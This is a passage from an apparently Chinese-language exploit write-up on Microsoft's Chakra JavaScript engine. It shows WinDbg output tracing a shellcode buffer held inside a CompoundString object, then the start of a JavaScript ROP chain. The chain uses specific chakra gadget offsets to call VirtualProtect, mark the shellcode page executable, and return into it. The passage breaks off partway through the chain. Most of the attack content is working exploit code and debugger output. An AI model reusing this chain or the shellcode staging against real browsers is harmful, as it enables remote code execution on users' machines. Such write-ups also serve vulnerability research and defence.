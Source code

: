 <pre>
<code>
0:026> ln poi(2096d0d3540)
<font color="red">(00007ff9`6b571390)   <b>chakra!Js::CompoundString::`vftable'</b></font>   |  (00007ff9`6b571690)   chakra!Js::ConcatStringN<2>::`vftable'
Exact matches:
    chakra!Js::CompoundString::`vftable' = &lt;no type information>
</code>
</pre>

看来当前的shellcode是一个CompoundString的对象，而其结构可以通过下面的命令看到更为详细信息。

<pre>
<code>
0:026> dt -b chakracore!Js::CompoundString 2096d0d3540
   +0x000 __VFN_table : 0x00007ff9`6b571390 
   +0x008 type             : 0x00000209`6cf04450 
   +0x010 m_pszValue       : (null) 
   +0x018 m_charLength     : 0x35e
   +0x020 lastBlockInfo    : Js::CompoundString::BlockInfo
      <b>+0x000 buffer           : 0x00000209`6d03c038 </b>
      +0x008 charLength       : 0x35e
      +0x00c charCapacity     : 0x1434
   +0x030 directCharLength : 0xffffffff
   +0x034 ownsLastBlock    : 1
   +0x038 lastBlock        : 0x00000209`6d03c020

0:026> dd 00000209`6d03c038
00000209`6d03c038  78ec8148 4c000001 6824848d 48000001
00000209`6d03c048  05e5158d 8d480000 0005b50d 041ae800
00000209`6d03c058  8b4c0000 0168248c 8d4c0000 01702484
00000209`6d03c068  8d480000 0005b315 0d8d4800 00000592
00000209`6d03c078  0003f7e8 0d8d4800 00000586 682494ff
00000209`6d03c088  48000001 8d48c189 0005ab15 2494ff00
00000209`6d03c098  00000170 24848948 00000108 5f0d8d48
00000209`6d03c0a8  ff000005 01682494 89480000 158d48c1
</code>
</pre>

根据上面的数据结构可以看到，shellcode对象偏移0x20正好是一个buffer的指针，这个指针正好指向实际的data，这也就解释了为什么在读取shellcode实际的数据时，需要+0x20的缘故。

### ROP与exploit trigger
```JavaScript
var rop = [
    /*
        chakraBase + 0x1DA2F5           // pop rdi; pop rsi; pop rbx; retn
        shcodeAddr & 0xFF..FFF000       // lpAddress
        0x1000                          // dwSize
        0x40                            // flNewProtect
        chakraBase + 0x1DA2CB           // setup args => call VirtualProtect
        ...                             // 0x30 garbage (6 * uint64)
        0                               // In order to pass check
        ...                             // 0x98 - 0x38 garbage (12 * uint64)
        shcodeAddr                      // Finally return to our shellcode!
    */
    chakraBase.add(0x1DA2F5),
    shcodeAddr.and(new Long(0xFFFFF000, 0xFFFFFFFF, true)),
    new Long(0x1000, 0, true),
    new Long(0x40, 0, true),
    chakraBase.add(0x1DA2CB),
    filler, filler, filler, filler, filler, filler,
    new Long(0, 0, true),
    filler, filler, filler, filler, filler, filler,
    filler, filler, filler, filler, filler, filler,
```